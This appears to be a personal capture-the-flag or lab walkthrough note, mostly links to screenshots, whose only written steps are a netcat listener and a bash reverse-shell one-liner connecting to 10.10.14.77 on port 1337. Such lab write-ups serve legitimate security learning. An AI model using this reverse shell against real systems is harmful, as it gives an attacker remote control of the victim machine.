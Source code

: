 ![[Pasted image 20240605201319.png]]

![[Pasted image 20240605201950.png|700]]

![[Pasted image 20240605202410.png|700]]

![[Pasted image 20240605202831.png|700]]

![[Pasted image 20240605202857.png|700]]

![[Pasted image 20240605202923.png|700]]

![[Pasted image 20240605203108.png|700]]

![[Pasted image 20240605203135.png|700]]

![[Pasted image 20240605204650.png|700]]

```sh
nc -nvlp 1337
```
![[Pasted image 20240605205005.png|700]]

```sh
bash -c 'bash -i >& /dev/tcp/10.10.14.77/1337 0>&1'
```
![[Pasted image 20240605204807.png|700]]

![[Pasted image 20240605205103.png|700]]